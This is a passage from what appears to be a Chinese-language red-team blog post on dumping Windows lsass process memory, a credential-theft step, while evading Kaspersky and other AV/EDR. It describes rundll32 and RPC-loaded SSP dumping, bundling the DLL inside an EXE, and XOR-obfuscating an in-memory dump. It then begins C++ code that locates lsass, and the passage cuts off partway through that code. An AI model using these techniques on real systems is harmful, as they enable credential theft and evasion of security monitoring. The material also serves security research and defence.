 
我们先拿rundll32测试一下，成功dump了lsass进程：

![1616754918942.png](https://i.loli.net/2021/03/27/NiSnL7O3KIzXBa1.png)

然后使用利用RPC加载SSP的方式来转储lsass的进程内存：

![1616755907599.png](https://i.loli.net/2021/03/27/aNelHhgcySV5RJo.png)

成功绕过卡巴斯基对lsass的监控

### 2. 将DLL与EXE文件打包

我们在使用该方法时需要上传exe和dll，并且XPN原版的代码需要将SSP DLL的绝对路径作为参数传入，在使用时非常不方便

因此我们可以将DLL放入exe的资源节区，然后在运行时释放到程序所在目录，加载完成后再删除DLL


成功dump lsass进程的内存：


![1616758943171.png](https://i.loli.net/2021/03/27/cDC86MSWHNRqFZ2.png)


关于将文件添加到资源区并释放可以参考：[C++实现第三方资源释放与载入过程（以DLL为例）](https://blog.csdn.net/dengdao1372/article/details/101230640)

### 3. 将进程dump到内存

部分AV/EDR会监控我们dump下来的进程转储文件，因此我们有时需要将进程dump到一块内存中，进行加密后再写入磁盘，或者直接通过网络进行传输

主要利用的是`MiniDumpWriteDump`的回调函数来实现该操作

我这里借鉴了`@ired.team`的代码（[文章戳这里](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass#minidumpwritedump-to-memory-using-minidump-callbacks)），并在内存中对进程转储数据进行与`0x32`的按位异或，通过编译为dll然后使用rundll32加载

``` cpp
// dllmain.cpp : Defines the entry point for the DLL application.
#include "pch.h"
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
#include <processsnapshot.h>
#pragma comment (lib, "Dbghelp.lib")

LPVOID dumpBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, 1024 * 1024 * 75);
DWORD bytesRead = 0;

int GetLsassPid() {

	PROCESSENTRY32 entry;
	entry.dwSize = sizeof(PROCESSENTRY32);

	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);

	if (Process32First(hSnapshot, &entry)) {
		while (Process32Next(hSnapshot, &entry)) {
			if (wcscmp(entry.szExeFile, L"lsass.exe") == 0) {
				return entry.th32ProcessID;
			}
		}
	}

	CloseHandle(hSnapshot);
	return 0;
}

```